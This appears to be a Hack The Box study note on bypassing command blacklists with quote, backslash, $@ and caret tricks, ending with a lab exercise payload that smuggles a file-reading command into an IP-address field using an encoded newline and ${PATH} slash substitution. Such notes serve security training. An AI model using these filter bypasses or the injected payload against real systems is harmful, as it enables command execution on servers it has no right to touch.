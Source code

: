 # Bypassing Blacklisted Commands

## Linux & Windows
Using single and double quotes (`'` and `"`)
```
21y4d@htb[/htb]$ w'h'o'am'i

21y4d
```
```
21y4d@htb[/htb]$ w"h"o"am"i

21y4d
```

## Linux
Insert backslash `\` and/or `$@`
```
who$@ami
w\ho\am\i
```

## Windows
Insert caret `^`
```
C:\htb> who^ami

21y4d
```

Exercise payload: <br>
`127.0.0.1%0a{ca't',${PATH:0:1}home${PATH:0:1}1nj3c70r${PATH:0:1}flag.txt}`
